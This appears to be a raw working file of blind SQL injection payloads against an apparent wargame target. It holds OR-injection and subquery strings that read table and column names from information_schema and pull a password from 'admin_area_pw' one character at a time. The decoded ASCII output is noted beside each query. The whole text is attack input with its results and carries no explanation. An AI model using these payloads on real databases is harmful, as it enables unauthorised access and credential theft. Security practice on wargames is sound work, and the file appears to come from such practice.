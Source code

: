 length((select table_name from infomation_schema.tables where table_schema = 'blind_db' limit 0,1)) = 1

no = 1 and ascii(substr((select table_name from information_schema.tables where table_schema = 'blind_db' limit 0,1),1,1))=115

1 ' or length((select table_name from information_schema.tables where table_schema='WebHackTest' limit 0,1)) >= 1

1' or select DISTINCT TABLE_TYPE from information_schema.TABLES

(select length(table_name) from information_schema.tables where table_schema=database() limit 0, 1)

(select ascii(substring(table_name, 6,1)) from information_schema.tables where table_schema=database() limit 0,1)

97 100 109 105 110 95 97 114 111 97 95 112 119 

(select ascii(substring(table_name, 7,1)) from information_schema.tables where table_schema=database() limit 0,1)
(select ascii(substring(table_name, 8,1)) from information_schema.tables where table_schema=database() limit 0,1)
(select ascii(substring(table_name, 9,1)) from information_schema.tables where table_schema=database() limit 0,1)
(select ascii(substring(table_name, 10,1)) from information_schema.tables where table_schema=database() limit 0,1)
(select ascii(substring(table_name, 11,1)) from information_schema.tables where table_schema=database() limit 0,1)
(select ascii(substring(table_name, 12,1)) from information_schema.tables where table_schema=database() limit 0,1)

(select ascii(substring(column_name, 1,1)) from information_schema.columns where table_name="admin_area_pw")
(select ascii(substring(column_name, 2,1)) from information_schema.columns where table_name="admin_area_pw")

(select ascii(substring(pw, 1,1)) from admin_area_pw)   107 
(select ascii(substring(pw, 2,1)) from admin_area_pw)   117
(select ascii(substring(pw, 3,1)) from admin_area_pw)   100
(select ascii(substring(pw, 4,1)) from admin_area_pw)   111
(select ascii(substring(pw, 5,1)) from admin_area_pw)   115
(select ascii(substring(pw, 6,1)) from admin_area_pw)   95
(select ascii(substring(pw, 7,1)) from admin_area_pw)   116
(select ascii(substring(pw, 8,1)) from admin_area_pw)   111
(select ascii(substring(pw, 9,1)) from admin_area_pw)   95 
(select ascii(substring(pw, 10,1)) from admin_area_pw)  98 
(select ascii(substring(pw, 11,1)) from admin_area_pw)  111
(select ascii(substring(pw, 12,1)) from admin_area_pw)  105
(select ascii(substring(pw, 13,1)) from admin_area_pw)  115
(select ascii(substring(pw, 14,1)) from admin_area_pw)  116
(select ascii(substring(pw, 15,1)) from admin_area_pw)  108
(select ascii(substring(pw, 16,1)) from admin_area_pw)  97 
(select ascii(substring(pw, 17,1)) from admin_area_pw)  98 
